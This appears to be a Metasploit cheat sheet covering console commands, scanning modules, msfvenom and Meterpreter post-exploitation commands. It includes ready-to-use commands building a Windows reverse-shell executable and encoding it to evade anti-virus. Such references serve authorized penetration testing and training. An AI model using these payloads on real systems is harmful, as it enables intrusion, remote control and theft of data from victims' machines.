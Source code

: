 # Metasploit Cheat Sheet

***
Metasploit Project is a computer security project which provide information about vulnerabilities. Help in the development of penetration tests and IDS signatures, metasploit is very popular tool used by pentest experts.

### Metasploit :

- ###### Search for module:

```bash
msf > search [regex]
```

- ###### Specify and exploit to use:

```bash
msf > use exploit/[ExploitPath]
```

- ###### Specify a Payload to use:

```bash
msf > set PAYLOAD [PayloadPath]
```

- ###### Show options for the current modules:

```bash
msf > show options
```

- ###### Set options:

```bash
msf > set [Option] [Value]
```

- ###### Start exploit:

```bash
msf > exploit 
```
***

### Useful Auxiliary Modules


- ###### Port Scanner:

```bash
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.10.0/24
msf > run
```

- ###### DNS Enumeration:

```bash
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

- ###### FTP Server:

```bash
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

- ###### Proxy Server:

```bash
msf > use auxiliary/server/socks4
msf > run 
```
***

### msfvenom :

msfvenom this is tool can be used to generate Metasploit payloads as standalone files and optionally encode them. This tool replaces `msfpayload` and `msfencode` tools. Run with ‘'-l payloads’ to get a list of payloads.

```bash
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```


- ##### Example: Reverse Meterpreter payload as an executable and redirected into a file:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=192.168.1.1
LPORT=4444 > met.exe
```

- ##### Format Options **(specified with –f)** --help-formats – List available output formats

    -  `-exe` – Executable
    -  `-pl` – Perl
    -  `-rb` – Ruby
    -  `-raw` – Raw shellcode
    -  `-c` – C code

- ##### Encoding Payloads with msfvenom

msfvenom can be used to apply a level of encoding for anti-virus bypass. For example run msfvenom with `-l encoders` to get a list of encoders.

```bash
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

- ##### Example: Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=192.168.1.1 LPORT=4444 > mal.exe
```
***

### Metasploit Meterpreter

- ##### Base Commands: 

    - `? / help` : Display a summary of commands exit / quit: Exit the Meterpreter session

    - `sysinfo`: Show the system name and OS type

    - `shutdown / reboot` : Self-explanatory

- ##### File System Commands:

    - `cd` : Change directory

    - `lcd` : Change directory on local (attacker's) machine

    - `pwd / getwd` : Display current working directory
    
    - `ls` : Show the contents of the directory

    - `cat` : Display the contents of a file on screen

    - `download / upload` : Move files to/from the target machine

    - `mkdir / rmdir` : Make / remove directory

    - `edit` : Open a file in the default editor (typically vi)

- ##### Process Commands:

    - `getpid` : Display the process ID that Meterpreter is running inside.

    - `getuid` : Display the user ID that Meterpreter is running with.

    - `ps` : Display process list.

    - `kill` : Terminate a process given its process ID.

    - `execute` : Run a given program with the privileges of the process the Meterpreter is loaded in.

    - `migrate` : Jump to a given destination process ID
